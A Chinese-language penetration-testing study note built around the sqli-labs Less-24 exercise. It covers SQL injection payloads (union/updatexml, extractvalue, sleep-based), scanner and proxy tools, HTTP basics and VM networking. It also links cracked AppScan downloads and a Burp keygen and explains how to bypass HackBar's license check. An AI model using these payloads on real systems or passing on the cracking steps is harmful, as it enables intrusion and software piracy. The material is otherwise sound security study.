主要是修改密码的逻辑问题：

查看路径`/sqli-labs/less-24/pass_change.php`的文件代码，下面是关键性代码：

```php
$sql = "UPDATE users SET PASSWORD='$pass' where username='$username' and password='$curr_pass' ";
```

还原一下sql执行语句

```sql
UPDATE users SET PASSWORD='自己修改的' where username='hh' #' and password='随便' ";
```

会发现，修改了hh用户的密码，而且屏蔽了对hh用户原密码的判定。


### 附录攻击代码

参考一篇文章：[常用sql注入语句](https://www.jianshu.com/p/fcafbb9c025f) ，可以根据sql语句简单注入，获取用户数据信息，

进行信息的存取，修改(提权操作，从普通用户到VIP用户)。


### 有什么安全方案？

[SQL注入(SQL Injection)案例和防御方案](https://www.cnblogs.com/sochishun/p/6994918.html) 

会产生什么危害，才能证明需不要补救

- 预编译
- 参数类型检测
- 安全过程
- 存储过程


### 需要背诵记忆的点

#### 公共数据表

在数据库：information_schema

- SCHEMATA：储存数据库名
  - SCHEMA_NAME：存储数据名的字段
- TABLES：这里记录了所有数据库中国所有的表名
  - tables_schema：记录了这张表对应的数据库名
  - tables_name：记录表名的字段
- COLUMNS：这里记录了所有的数据中所有表的列名
  - table_schema：数据库名字段
  - table_name：表明字段
  - colum_name：列名字段


#### 报错函数

- updatexml()：[给一篇分析文章](https://www.cnblogs.com/MiWhite/p/6228491.html) 

  有三个参数：

  - 第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc 
  - 第二个参数：XPath_string (Xpath格式的字符串) ，如果不了解Xpath语法，可以在网上查找教程。 
  - 第三个参数：new_value，String格式，替换查找到的符合条件的数据 

  常见的写法如下，**concat函数**返回结果为连接参数产生的字符串。如有任何一个参数为NULL ，则返回值为 NULL。

  ```sql
  1' union select updatexml(1,concat(0x7e,(SELECT user()),0x7e), 1); #
  ```

  出现报错为：`出现报错为：ERROR 1105 (HY000): XPATH syntax error: '~root@localhost~'`

  这样可以发现当前连接数据库的用户的名为：root

  其实就是**contact连接的字符串不符合语法导致爆出我们传入的参数**。

- extractvalue()：

  EXTRACTVALUE (XML_document, XPath_string); 

  - 第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc 
  - 第二个参数：XPath_string (Xpath格式的字符串)

  payload：

  ```sql
  and extractvalue(null,concat(0x7e,(select @@datadir),0x7e));
  ```


#### 时间函数

```sql
-- expr1 表达式返回为true的话，执行expr2并返回结果，如果否则执行expr3的并返回
If(expr1,expr2,expr3)

payload
' and if (length(database())>10, sleep(5), 1); #
```


### 工具

一开始拿到这个任务，就遇到了一个问题，应该从哪些方面展开来学？其实应该规划到如何学习一门工具这个问题上？

对于一门工具的运用，首先要明白的是为什么要选择这个工具，与其他类型的工具相对比来说有怎么样的优缺点。

因为我们面对项目的时候，会有不同的情况以及业务需求。

而对于一个工具来说，一个工具肯定会有很多的使用方式，我们只需要针对于项目掌握一种常用的方式，以后遇到相关问题再展开。

同时工具需要人操作就有局限性，对于需要我们人工操作的部分需要重点学习，同时也就需要我们知道这一个工具运行的原理，这样才能处理到工具工作不到的地方。

####  sqlmap

判断是否有sql注入，并执行sql注入的一个Python构建的工具。

提供一个[sqlmap官网](http://sqlmap.org/) 网址，

阅读两篇博客：[sqlmap超详细笔记+思维导图](https://www.cnblogs.com/bmjoker/p/9326258.html) 和 [sqlmap参数详细总结（思维导图）](https://blog.csdn.net/haha13l4/article/details/89737914) 


#### APPScaner

##### 环境的搭建

先挂出一篇优质的参考博客：[Appscan工具之环境搭建](https://www.jianshu.com/p/7f3268a2d604) 

appscan软件的包以及破解补丁

> 链接：https://pan.baidu.com/s/1VWgRleAFNYRwBGrVM8cYcg 
> 提取码：fsqu 

需要注意的是：

- 如果之前安装过这类的app，必须卸载干净，并把注册表清理。
- 如果电脑没有安装 macrosoft .net framework 4.5，软件中途会跳出要求安装，建议先安装好。
- 对于破解方式的使用，就是直接的将破解补丁与源文件进行一个替换，这里只要用evething直接搜搜名字，找到路径，直接黏贴替换。


##### 使用流程

给一篇参考文章：[AppScan入门工作原理详解](https://www.cnblogs.com/mawenqiangios/p/8573525.html) 

 

这种预定义模板指的是什么？？？

可以点击取消，然后点击主界面中的，扫描---> 完全扫描



扫描就是扫描是否出现漏洞的情况，这里分了四大部分进行配置扫描的模板：

> 在实际工作中，我们也很难在最开始的阶段，就把扫描规范制定下来，按照项目经理们的口头禅“渐进明细”，“滚动式规划”，在实践中，更多时候也是摸着石头过河，选择了一个扫描策略，然后根据结果分析，看是否需要调整，不断优化

各大部分的的分析参考：[AppScan操作手册](https://blog.51cto.com/zhouanya/1388681) 

全面扫描分为探索和测试，探索就是检测是否有漏洞，可以手段检测，而测试就是进行攻击。

###### 探索

这一块简要的说几个：

- 登入管理：就是遇到登入界面，如何操作？

  登入

  - 记录：就是先弹出要登入的界面，进行登入记录登入信息
  - 提示：扫描过程中遇到了提示登入
  - 自动：想app scan输入密码账号，要登入的时候自动登入

  注销：这一块是与登入之间的关系，遇到了问题再说

- 环境定义：服务器搭建的各个方面的信息，如服务器系统，代理服务器，数据库，第三方组件

- 探索选项：其实就是爬虫的参数定义，遍历的深度，遍历的策略，遍历的时间，这几块

- 

###### 测试

测试策略：就是选择哪些常见的漏洞进行测试


#### zap

环境的搭建，可以在kali里面进行操作，也有windows下的环境

这里以提供一个连接：https://pan.baidu.com/s/1S4yDP7aFiEzSO41c_817vQ

需要提前配置java环境。

看两篇文章：[owasp zap 安全审计工具 功能详解](https://www.cnblogs.com/yoyo008/p/9371903.html) 

zap是集成渗透测试和漏洞挖掘的工具。


## 附录

附录记录的是在渗透过程中，需要用到的知识点，但他不是思考的主线，要用的时候就进行查询就可以。


### URL编码与加密


#### 编码

##### 字符编码

先说一下**字符编码的发展**：[编码格式发展历史及简介](https://blog.csdn.net/dk_0520/article/details/70157426)  给一篇文章

抽象的数据 --> 磁盘的状态 --> 0,1进制其他 **进制** 的方式描述 

--->  字符映射描述：**ASCII** 

---> 中间各个国家衍生自己的编码，如果国内的 GB2312 -- **GBK**  --- GB18030

---> 国际组织ISO，为了兼容修改编码：**UNICODE** 

---> unicode编码方案与其他不兼容，在面向网络传输的情况下：**UTF-8** -- UTF-16

**需要注意**

你当前的编辑的编码不一样，在磁盘中表现的状态不一样，所以在其他不同编码的阅读器中会出现乱码的情况，只需要修改阅读的编码就行，但不可从磁盘中修改，实质修改字符映射关系。

国内继续采用gbk编码的原因也就是因为，其他编码会增大内存


##### url编码

 先给一篇参考文章：[关于URL编码](http://www.ruanyifeng.com/blog/2010/02/url_encoding.html) 

url编码就是一个字符ascii码的十六进制

至于他们的拼接方式一般采用：每对name/value由&；符分开；每对来自[表单](https://baike.baidu.com/item/表单)的name/value由=符分开


#### 加密

一般使用base64进行加密，

> 百度百科：Base64编码是从二进制到字符的过程，可用于在[HTTP](https://baike.baidu.com/item/HTTP)环境下传递较长的标识信息

**思考如何判断数据的加密方式？**

- 肉眼：MD5是有32位数字，其他的就直接用用具吧，可以变化。
- 工具：[Hash Identifier](https://sourceforge.net/projects/hashidentifier/) 
- 可以首先用hack bar 解密尝试一下。


### 信息收集

看到很多书本把这个单做第一章来讲，但个人立即可以先跳过，这个不是思考的核心，核心是如何渗透？即使如何渗透的思路，这种搜索信息的能力只是附加的，所以文章将它放到附录里面。

- 问题是要搜集什么？
- 他的意义何在？
- 该怎么收集？


#### 要收集的信息以及意义

- whois：可以获取的信息

  ```
  1.域名详细信息
  2.域名服务器信息
  3.网络IP地址
  4.域名创建、过期时间
  5.最近更新记录
  ```

  获取真实的ip，才可以进行端口扫描，从端口了解到服务器是以什么方式搭建的，

- 企业信息：用来社工，或者猜解后台路径信息。

- 服务器系统：利用大小写是否敏感来判断，意义在于判断出数据的类别：


#### 如何搜索

##### 搜素引擎语法

- 字符匹配问题

  ```c
  "": 精确搜索
  * ：通佩符，可以代表多个字符
  . : 通配符，只能代替一个字符
  ```

- 网站各个部分的指定

  ```c
  正文：		   intile
  url信息: 		inurl，例如搜含有blog词的url，inurl:blog
  缓存: 		Cache
  基本信息：	  info
  网站：			site，例如百度旗下的网站， site: baidu.com
  ```

- 文件

  ```
  filetype
  ```

- 电影

  ```
  movie
  ```

  

##### cdn绕过

贴一篇文章：[11种绕过CDN查找真实IP方法](https://www.cnblogs.com/qiudabai/p/9763739.html) ，[绕过CDN查看网站真实IP的一些办法](https://www.cnblogs.com/blacksunny/p/5771827.html) 

cdn是什么？

分布式内容缓存系统，用来优化，会将网站信息缓存到某个节点，导致无法对真实的网站进行攻击


### 工具

#### 抓包工具——brup suite

##### brup suite安装

贴一片文章：[安装Burpsuite1.7.31](https://www.jianshu.com/p/f38f6abc2c11)

不多说，看文章就可以，后每次使用时双击`burp-loader-keygen.jar`，点击右上角的`Run`即可

##### 代理设置

代理就是：代替你管理，就相当于你购买一件商品，快递代替你走路。

这里以Chrome为例进行一个安装。

首先可以在设置里面直接找到设置代理的地方：

settings ——> advance ---> open proxy settings --> 局域网设置


为什么要设置为8080，因为brupsuite的监听端口是这个


但如果有其他的软件也需要监听者这个端口，或者说有其他的代理要监听流浪器数据，频繁的这样的操作就会显得很麻烦。

所以这里结合一个插件：SwitchyOmega，

直接在扩展商店里面下就行：more tools --> extensions --> open chroome store

下载好后打开进行设置


然后重启，点击图标进行代理选择：


direct：直接访问，不设置代理

当代理设置好了，可以进行网页访问，如果brupsuite开启了，此时会出现一个**连接问题，主要是没有安装代理的证书**

在开启代理的情况下，访问：http://burp/，下载证书：

安装：点击下载的证书 --> 安装证书 -->本地计算机 --> 将所有的证书放到下面存储 --> 受信任根证书发布机构

弄好后，重启流浪器，再访问web页面，网页会一直转圈，这时候要注意不是没有设置好代理，而是已经开始拦截。


##### 简单使用

先说明一下brupsuite是一款什么工具。

看下面这张图，加上这篇文章[burp suite 基础入门超详细教程](https://www.cnblogs.com/php09/p/10412687.html) 

图片原文来自：[Burp Suite使用介绍（一） （二） （三）](http://www.mamicode.com/info-detail-615018.html) 


### http协议

先来一篇w3.org的文档：[Hypertext Transfer Protocol -- HTTP/1.1](https://www.w3.org/Protocols/HTTP/1.1/rfc2616bis/draft-lafon-rfc2616bis-03.html) 

首先要知道http是应用层的协议，全称是：hypertext  transfer protocol ，就是超文本传输协议，也就是客户端与服务器之间交互的协议，至于下面是怎么运行的，不管。

#### 浏览器解包分析

先来看第一个问题：**服务器与客户端是如何进行信息交互的？**

只是做简单的记录，没有从他为什么要有这些字段来分析

直观的先从浏览器中解析的http包开始分析，先了解各大概。


报文分析参考：[An overview of HTTP](https://developer.mozilla.org/en-US/docs/Web/HTTP/Overview) 和  [HTTP请求行、请求头、请求体详解](https://blog.csdn.net/u010256388/article/details/68491509) 

可以看到，http报文分为两块：请求报文和应答报文

每一个报文的结构

```
行：请求行、相应行
头：请求头、响应头
体：请求体、响应体
```

##### 请求


[request](https://www.w3.org/Protocols/rfc2616/rfc2616-sec5.html) w3.org的文档

- 请求行：

  ```c
  // 请求方式 + url + 版本信息
  GET  /static/img/favicon32.7f3da72dcea1.png    HTTP/1.1
  ...
  ```

  请求方式有很多种，介绍两种，其他以后遇到再查：[method definition](https://www.w3.org/Protocols/rfc2616/rfc2616-sec9.html) 

  ```
   get: 数据拼接在url里面，url长度可以限制，相对不安全
   post: 数据被封装成包，相对安全。
  ```

- 请求头

  也有好多，挑几个常见的

  ```
  accept：值请求之后能接收什么多媒体类型
  Host：域名或者地址
  connection：
  User-Agent：发送请求的设备的系统与浏览器信息
  cookie：用来安全防护
  Referer: 从哪来
  ```

- 请求体

  用brup suite 拦截包：

  

  

##### 响应


这里给一下w3.org 的文档：[response](https://www.w3.org/Protocols/HTTP/1.1/rfc2616bis/draft-lafon-rfc2616bis-03.html#response) 

- 响应行

  讲 一下，状态码，状态码暂时是从100到505，后面的是扩展码，每一百一个类别：

  ```
  1xx：指示信息--表示请求已接收，继续处理
  2xx：成功--表示请求已被成功接收、理解、接受
  3xx：重定向--要完成请求必须进行更进一步的操作
  4xx：客户端错误--请求有语法错误或请求无法实现
  5xx：服务器端错误--服务器未能实现合法的请求
  ```

- 响应头

- 响应体

  

##### 工作过程

看一篇文章：[HTTP工作流程](https://www.cnblogs.com/quan-coder/p/9277837.html) 

浏览器发送一个请求：

地址解析 --> 封装HTTP 请求 --> tcp报文 --> 各大层 --> 服务http请求 --> 浏览器代码 --> 页面渲染


##### 扩展https

贴一篇文章：[HTTPS原理和CA证书申请](https://blog.51cto.com/11883699/2160032) 

HTTPS是 hypertext transition Protocol Secure；就是 http + ssl(secure  Sockets Layer)；

重点介绍一下ssl的原理，这篇文章就够了，[HTTPS整套加密机制是如何实现的？](https://www.wosign.com/news/httpsjiami_20180817.htm) 

这里写一下演变过程：

--> 没有加密，数据被中间人拦截任意修改

--> 对称加密，秘钥相同，用户可以冒充

--> 非对称加密，在申请公钥的时候可以进行劫持

--> 数字证书，数字证书 = 网站信息 + 数字签名，

​	其实就是本地拥有了第三方的机密公钥可以进行比对，这个公钥是攻击者无法获取的。


#### 攻击

常见的就是xss的攻击，获取到用户的cookies冒充用户进行网站的一些操作。


### 爬虫

看一篇文章：[入门爬虫技术原理，看这篇就够了](https://www.jianshu.com/p/4cd94a594db1) 

这里简单阐述一下爬虫的原理：

不断向服务器发送http请求，收到响应，对包进行分析，对a标签进行定位并解析链接，将连接存储按照策略访问，重复操作。

爬取策略就是深度优先和广度优先。

暂时不深究下去，以后补充。


### vm配置

参考一篇文章：[vmware虚拟机三种网络模式的区别](https://blog.csdn.net/chichi123137/article/details/82670257)

简单的配置网上都可以搜到，至于存储，cpu，内存，这些都不要紧，用到不舒服再调整就行。

说一下网络的配置：


对于虚拟机自身来说：

- 桥接模式：

  桥就是网桥，宿主和虚拟机属于并列的关系，宿主机与虚拟机互不影响，但在同一个路由器下，ip由路由器分配，这就是直接连接物理网络。

  

  桥接模式只是一种连接方式，那么要实现不同的ip地址，需要在虚拟机中修改网卡的ip信息

  

- NAT模式：

  NAT是Network Address Translate的缩写，翻译过来就是网络地址转换，宿主机相当于路由器，虚拟机的ip由宿主机进行分配，但需要知道的是对于外网只有宿主机一个ip，也就是虚拟机共享宿主机的ip。

- 仅主机模式：

  就是宿主机只能访问主机的共享数据，宿主机与建立了一个共享的网络，默认是VMnet0

- 自定义特定的虚拟网络：

  这个有可选项，建立新的虚拟网络要：编辑 --> 虚拟网络编辑器 --> 添加网络

  

  这里然后进行上面三种网络模式的选择，这个可以用于一台设备设置多个网卡的操作。

-  LAN区段：用来制造虚拟局域网的选项，[参照文章](https://blog.csdn.net/xuxile/article/details/52574314) ，这样可以实现各个虚拟机就互访。


说白了，就是一个机器装了好多系统，共享一个物理硬件，之间的网络连接和几台独立的机器相连是一样的。

网络连接，就是正常的部署。


### Google插件

[Firefox/Chrome渗透测试插件推荐](https://www.freebuf.com/sectool/35250.html)

#### HackHar及其破解

> Linux下旧版本

在Google扩展商店中，找到HackBar ，加入到Google插件中。

后面可以在Google extensions中查到你电脑设置的hackback 中设置的插件id


利用everything搜索id，找到Google安装HackBar插件的位置，发现是js文件，我们需要找到的是控制输入许可码的js代码就可以，直接注释绕过


找到 `theme/hackbar-panel.js` 文件，做下面的操作

```js
// 设置：license_ok = ok;
// 或者注释：disable_hackbar(message=null)；
```


### 参考

#### 视频

链接： [小迪渗透测试视频](https://pan.baidu.com/s/19walJ1VTFD5yAWIOSjUnQA ) 
提取码：p1q7 

链接：[麦子学院web安全入门](https://pan.baidu.com/s/1TCm6cjt1BMSGpXqV4mWmrQ ) 
提取码：ht7l 


#### 书籍

《Web安全攻防渗透测试实战指南》

《Kali-Web渗透测试》

《白帽子讲web安全》


#### WiKi_Blog

[ctf wiki](https://ctf-wiki.github.io/ctf-wiki/) 

[Daniel-0](https://blog.csdn.net/D_pokemon) 
